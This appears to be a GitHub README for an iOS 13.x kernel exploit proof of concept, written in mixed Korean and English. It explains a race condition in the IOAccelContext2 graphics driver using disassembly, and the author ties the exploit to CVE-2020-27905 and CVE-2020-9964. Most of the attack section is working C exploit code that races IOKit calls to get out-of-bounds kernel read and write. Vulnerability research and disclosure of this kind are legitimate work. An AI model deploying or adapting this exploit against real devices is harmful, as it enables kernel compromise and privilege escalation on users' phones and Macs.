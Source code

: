 ## oob_events

#저자commnet

I've updated oob_events exploit and it should work fine 
in on A12+ devices (with 60 % of success rate) and ~95% in devices with lower ram size i.e A10.
Tested on iPhone 11 and iPhone 7.

다음은 PoC 커널 익스플로잇으로, iOS 13.7에서 커널 작업 포트를 얻는 방법을 보여줍니다. 
나중에 PoC를 작성하여 업데이트하겠습니다.


개인 장치에서 사용하거나 탈옥에 사용하지 않는 것이 좋습니다. 
장치가 불안정한 상태가 될 수 있습니다
I dont recommend using it in your personal device or to use it for a jailbreak. 
it may leave your device in unstable state. You’ve been warned.


arm64e의 익스플로잇은 iPhone 9,3 (9/10배 작동)과 달리
그다지 안정적이지 않으며 많은 커널 패닉이 예상되며 약간의 작업이
필요하고 이러한 익스플로잇을 일반화하고 모든 장치에서 작동하기는 어렵습니다.


IOGPU 제품군(IOAcceleratorFamily의 후속 제품)과 
함께 제공되는 iOS 14.1을 확인했지만 버그를 유발하는 
일치하는 패턴을 찾지 못했기 때문에 iOS 13.x 및 
IOAcceleratorFamily를 사용하는 모든 장치(예: macOS)에서만 작동합니다.

IOGPUFamily는 일부 장치(내 생각에는 A10 이상)에만 있습니다. 
예를 들어 A8X는 여전히 IOAcceleratorFamily를 사용합니다.


## oob_events.c
## IOAccelContext2::finish_fence_event() race condition OOB read/write
```
#if 0
IOAccelContext2::finish_fence_event() race condition OOB read/write

This is a method exposed to user space, it takes a kernel read-only shared memory
(type 2 via clientMemoryForType())  address and treats it as an IOAccelEvents Array.

The user supplied index is checked against the IOAccelEvents array bounds,since there are no
locks held in this method,it is possible to change the array bounds by calling
IOAccelContext2::clientMemoryForType() again in a separate thread, this will expand the size by
multiplying the older size by 2, but we still have a reference to the old shared memory address
with the size of the new one.Therefore, we created a condition where the scalar index is checked
against the new array size but we still have the old shared array reference.
From this condition,we can make IOAccelEvents array points to an arbitrary location, thus perform arbitrary
kernel read and semi-arbitrary kernel write.

fffffff0061f7fa4  ldr        x8,[x0, #0x6a8] .       // x8 takes a reference to shmem_addr but not atomically  
fffffff0061f7fa8  cbz        x8,LAB_fffffff0061f8010
fffffff0061f7fac  mov        x20,x0
fffffff0061f7fb0  ldr        w9,[x0, #0x6d8] .      
fffffff0061f7fb4  cmp        w1,w9, LSR #0x6 .       // scalar input is checked against the array bounds,
fffffff0061f7fb8  b.cs       LAB_fffffff0061f8020
....
fffffff0061f7fd4  blr        x8=>IOAccelEventMachineFast2::finishEventUnlocked                        

By completely controlling the IOAccelEvents content, we can perform multiple memory read/writes,
as shown in the disassembly below :

IOAccelEventMachineFast2::finishEventUnlocked()
LAB_fffffff00620e0c0                            XREF[1]:     fffffff00620e20c(j)  
    fffffff00620e0c0  ldr        x23,[x19, x26, LSL #0x3]
    fffffff00620e0c4  cmn        w23,#0x1
    fffffff00620e0c8  b.eq       LAB_fffffff00620e204
    fffffff00620e0cc  lsr        x22,x23,#0x20
    fffffff00620e0d0  smaddl     x25,w23,w28,x21  // x25 will point to arbitrary address , we completely control w23
    fffffff00620e0d4  ldr        w8,[x25, #0xf0]!  
    fffffff00620e0d8  sub        w8,w22,w8
    fffffff00620e0dc  cmp        w8,#0x1
    fffffff00620e0e0  b.lt       LAB_fffffff00620e204
    fffffff00620e0e4  sxtw       x24,w23
    fffffff00620e0e8  ldr        x8,[x21, #0x28] .  
    fffffff00620e0ec  ldr        x8,[x8, x24, LSL #0x3]
    fffffff00620e0f0  ldr        w8,[x8]   // OOB read since x24 is user controlled
    fffffff00620e0f4  str        w8,[x25]  // <---- OOB write


#endif
#include "client.h"

int start= 0;


io_connect_t iokit_get_connection(const char *name,u32 type)
{
    kern_return_t kr = KERN_SUCCESS;
    io_connect_t conn = MACH_PORT_NULL;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    kr = IOServiceOpen(service, mach_task_self(), type, &conn);
    //CHECK_MACH_ERR(kr,"IOServiceOpen");
    return conn;
}

void map_memory(io_connect_t c,u32 type, void *addr,size_t *size)
{
    kern_return_t kr = IOConnectMapMemory(c, type, mach_task_self(), (mach_vm_address_t *)addr, &size, 1);
    assert(kr == KERN_SUCCESS);
}


void s_finish_fence_event(io_connect_t c,u64 scalar0)
{
    int selector = 5;
    
    kern_return_t kr = IOConnectCallMethod(c, selector, (void*)&scalar0,1,
                 NULL, 0,
                 NULL, NULL,
                 NULL, NULL);

}

void *do_finish_fence_event(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    
    s_finish_fence_event(c, 0x100);
    return NULL;
}

void *do_map_memory(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    mach_vm_address_t addr = 0;
    mach_vm_size_t size = 0x0;
    
    //pthread_yield_np();
    map_memory(c,2,&addr,&size);
    return NULL;
}
#define THREADS 0x2
pthread_t ths[THREADS];

void doit(void)
{
    printf("Winning Race \n");
    
    while(1) {
        io_connect_t c = iokit_get_connection("IOGraphicsAccelerator2", 0);
        io_connect_t agxsh = iokit_get_connection("IOGraphicsAccelerator2", 2);
       
        IOConnectAddClient(c,agxsh);
        mach_vm_address_t addr = 0;
        mach_vm_size_t size = 0x0;
    
        char *ptr = (char *)addr;
        map_memory(c,2,&addr,&size);
    
        map_memory(c,0,&addr,&size);
        memset(addr,0xcc,0x4000);
        map_memory(c,1,&addr,&size);
        memset(addr,0x41,0x4000);

        u64 value = ((u64)0x41414141 << 0x20) | 0x42424242;
        memcpy(addr,&value,0x8);
        int thc = 1;
        pthread_t th[thc];

        for(int i=0; i< thc; i++) {
            pthread_create(&th[i],NULL,do_map_memory,(void *)&c);
        }
        for(int i=0; i< THREADS; i++) {
        
            pthread_create(&ths[i],NULL,do_finish_fence_event,(void *)&c);
        }
        
        start = 1;
        for(int i=0; i< THREADS; i++) {
            pthread_join(ths[i],NULL);

        }
        for(int i=0; i< thc; i++) {
            pthread_join(th[i],NULL);
        }
        IOServiceClose(c);
        IOServiceClose(agxsh);
    }

}
```

# 설명
The exploit uses two distinct vulnerabilities which I independently discovered and reported to Apple, CVE-2020-27905 which is a race condition leads to OOB read/write  via arbitrary 32-bit index,and CVE-2020-9964 which is a kernel  information leak bug.
